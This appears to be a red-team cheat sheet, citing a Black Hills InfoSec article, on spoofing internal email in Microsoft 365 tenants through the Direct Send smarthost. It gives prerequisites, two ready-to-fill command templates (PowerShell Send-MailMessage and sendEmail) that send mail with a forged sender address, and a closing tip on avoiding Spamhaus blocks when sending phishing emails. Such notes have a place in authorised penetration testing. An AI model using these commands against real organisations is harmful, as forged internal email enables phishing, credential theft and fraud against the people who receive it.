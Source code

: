 ### Source
https://www.blackhillsinfosec.com/spoofing-microsoft-365-like-its-1995

### Spoofing using Micrsoft Direct Send
```
Prerequisites:
- Microsoft 365 subscription and an Exchange Online Plan
- MX endpoint called Smarthost: <targetDomain-domainComponent>.mail.protection.outlook.com
```

### Spoof message using Microsoft Direct Send
```
Send-MailMessage -SmtpServer <company-com>.mail.protection.outlook.com -To <user>@<company.com> -From <user>@<company.com> -Subject "<subject>" -Body "<body>" -BodyAsHTML
```

### Spoof message using Microsoft Direct Send 
```
cat <file.html> | sendEmail -f "<user>@<company-com>" -u "<subject>" -s "<company-com>.mail.protection.outlook.com" -t "<user>@<company-com>" -o message-content-type=html
```

### Note
```
SPAMHAUS will block most residential IP addresses from sending spoofed emails.
Do not send phishing emails from your house IP adress.
```


